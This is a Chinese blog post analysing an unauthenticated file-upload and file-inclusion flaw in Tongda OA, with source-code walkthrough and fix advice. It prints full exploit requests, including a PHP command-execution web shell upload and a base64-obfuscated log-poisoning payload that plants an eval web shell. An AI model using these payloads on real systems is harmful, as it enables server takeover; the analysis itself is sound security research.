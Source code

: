 ```yaml
---
layout: post
title:  "通达OA文件包含漏洞"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA文件上传和文件包含漏洞分析文章。由于作者能力有限，文中定会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

在2020年3月初的时候，有安全厂商发布公告称通达OA被入侵后被黑产利用。今日再来分析此漏洞的时候发现，其实和文件上传没关系，也根本不是任意文件上传漏洞。而是一个思路很好的文件包含漏洞。漏洞的触发条件是在无需登录的条件下上传一个jpg等其他图片格或其他文件格式的非PHP格式的文件即可，然后再利用文件包含漏洞去包含导致漏洞触发。漏洞问题的触发点在于文件包含。除了剪切图片操作之外，很难保证上传图片的内容安全。

影响版本：V11版、2017版、2016版、2015版、2013增强版、2013版（具体未实际测试）

1.文件上传的数据包：

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Content-Length: 658

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

2.文件包含数据包：

```
POST /mac/gateway.php HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

json={"url":"/general/../../attach/im/2006/2097931002.zip"}&cmd=whoami
```



## 0x02 漏洞分析

### 一、文件上传

- /ispirit/im/upload.php:5-13行。5行进行判断，变量P存在并不为空的话则执行6-10行代码。如果变量P不存在，或者是等于空的话。则执行else语句，包含auth.php。

  ```php
  if (isset($P) || ($P != "")) {
  	ob_start();
  	include_once "inc/session.php";
  	session_id($P);
  	session_start();
  	session_write_close();
  }
  else {
  	include_once "./auth.php";
  }
  ```

- ispirit\im\auth.php。查看auth.php代码，发现此文件作用为校验用户是否登录。所以如果P存在，并且不为空的话即可在非登录状态下进行上传。

  ```php
  include_once "inc/session.php";
  session_start();
  session_write_close();
  include_once "inc/conn.php";
  include_once "inc/utility.php";
  ob_start();
  if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  	sleep(1);
  	if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  		echo "-ERR " . _("用户未登陆");
  		exit();
  ```

### 二、文件包含

- /mac/gateway.php:41行。对url进行了包含处理。

  ```php
  	if ($url != "") {
  		if (substr($url, 0, 1) == "/") {
  			$url = substr($url, 1);
  		}
  		include_once $url;
  	}
  ```

- 

**思考：**其实这个地方除了可以通过文件上传之后进行包含之外，也可以通过包含其他文件进行利用，比如包含日志文件：

poc1：

```
GET /mac/gateway.php?json={}&aa=<?php @fputs(fopen(base64_decode('bG9zdC5waHA='),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydsb3N0d29sZiddKTs/Pg=='));?> HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USER_NAME_COOKIE=admin; SID_1=b51a8646; PHPSESSID=olai0tkt0oqhcblhha71f42q21; OA_USER_ID=admin
Upgrade-Insecure-Requests: 1
```

poc2：

```
POST /mac/gateway.php HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

json={"url":"../ispirit/../../nginx/logs/oa.access.log"}
```

执行完poc1和poc2之后，便会在mac目录下生成lost.php。

### 三、漏洞修复

- url参数禁止用户可控。
- 在路径中禁止出现./等字符。

## 0x03 参考链接

- http://www.0e0w.com

